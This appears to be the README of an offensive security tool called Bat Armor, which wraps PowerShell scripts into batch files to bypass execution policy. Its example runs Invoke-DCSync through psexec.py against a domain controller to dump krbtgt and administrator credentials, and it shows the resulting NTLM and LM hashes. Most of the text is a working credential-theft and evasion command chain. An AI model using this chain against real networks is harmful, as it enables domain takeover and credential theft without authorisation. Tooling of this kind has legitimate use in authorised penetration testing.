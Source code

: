 # Bat Armor
Bypass PowerShell execution policy by encoding ps script into bat file.

# Example
Run Invoke-DCSync.ps1 to get krbtgt hash:

$ python bat_armor.py --script-path Invoke-DCSync.ps1\  
                    --launch-string "Invoke-DCSync -users krbtgt,administrator -alldata"\  
                    --out krbtgt.bat --target-filepath 'c:\windows\krbtgt.bat'  
  
$ python psexec.py pentesto.loc/administrator@dc01 -c krbtgt.bat  
ProxyChains-3.1 (http://proxychains.sf.net)  
Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies  
  
...  
  
  Hash NTLM: b8aa706788a3d8c6ac9a96684d7ff330  
    ntlm- 0: b8aa706788a3d8c6ac9a96684d7ff330  
    lm  - 0: 6829621ea2044b0e931f83e0b62b4b8c  
